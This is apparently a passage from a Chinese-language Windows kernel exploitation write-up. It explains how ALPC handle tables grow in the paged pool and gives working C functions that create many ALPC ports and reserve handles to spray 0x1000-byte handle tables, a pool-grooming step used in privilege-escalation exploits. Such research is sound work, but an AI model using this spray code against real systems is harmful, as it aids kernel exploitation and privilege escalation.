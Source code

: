 当创建 ALPC 端口时，会在分页池中初始分配一个大小为 0x80 的 _ALPC_HANDLE_TABLE  
 对象。每次调用 NtAlpcCreateResourceReserve  
 时，都会创建一个 _KALPC_RESERVE  
 数据块，并调用 AlpcAddHandleTableEntry  
 将其地址添加到句柄表中。  
```
struct _KALPC_RESERVE {
    struct _ALPC_PORT* OwnerPort;                                           //0x0
    struct _ALPC_HANDLE_TABLE* HandleTable;                                 //0x8
    VOID* Handle;                                                           //0x10
    struct _KALPC_MESSAGE* Message;                                         //0x18
    ULONGLONG Size;                                                         //0x20
    LONG Active;                                                            //0x28
}; 
```  
  
每当句柄表空间用尽时，对象就会重新分配并将其大小加倍。这意味着句柄表的大小是可变的，从 0x80、0x100、0x200、0x400、0x800、0x1000 等依次递增。因此，通过多次调用NtAlpcCreateResourceReserve  
，我们能够在分页池中分配一个大小为 0x1000 的_ALPC_HANDLE_TABLE  
对象。  
  
为了准备 ALPC 句柄表喷射，我们可以使用以下  
函数  
:  
```
BOOL CreateALPCPorts(HANDLE* phPorts, UINT portsCount) {
 ALPC_PORT_ATTRIBUTES serverPortAttr;
 OBJECT_ATTRIBUTES    oaPort;
 HANDLE               hPort;
 NTSTATUS             ntRet;
 UNICODE_STRING       usPortName;
 WCHAR     wszPortName[64];

 for (UINT i = 0; i < portsCount; i++) {
  swprintf_s(wszPortName, sizeof(wszPortName) / sizeof(WCHAR), L"\\RPC Control\\%s%d", g_wszPortPrefix, i);
  RtlInitUnicodeString(&usPortName, wszPortName);
  InitializeObjectAttributes(&oaPort, &usPortName, 0, 0, 0);
  RtlSecureZeroMemory(&serverPortAttr, sizeof(serverPortAttr));
  serverPortAttr.MaxMessageLength = MAX_MSG_LEN;
  ntRet = NtAlpcCreatePort(&phPorts[i], &oaPort, &serverPortAttr);
  if (!SUCCEEDED(ntRet))
   return FALSE;
 }
 return TRUE;
}

BOOL AllocateALPCReserveHandles(HANDLE* phPorts, UINT portsCount, UINT reservesCount) {
 HANDLE hPort;
 HANDLE hResource;
 NTSTATUS ntRet;

 for (UINT i = 0; i < portsCount; i++) {
  hPort = phPorts[i];
  for (UINT j = 0; j < reservesCount; j++) {
   ntRet = NtAlpcCreateResourceReserve(hPort, 0, 0x28, &hResource);
   if (!SUCCEEDED(ntRet))
    return FALSE;
   if (g_hResource == NULL) { // save only the very first
    g_hResource = hResource;
   }
  }
 }
 return TRUE;
}
```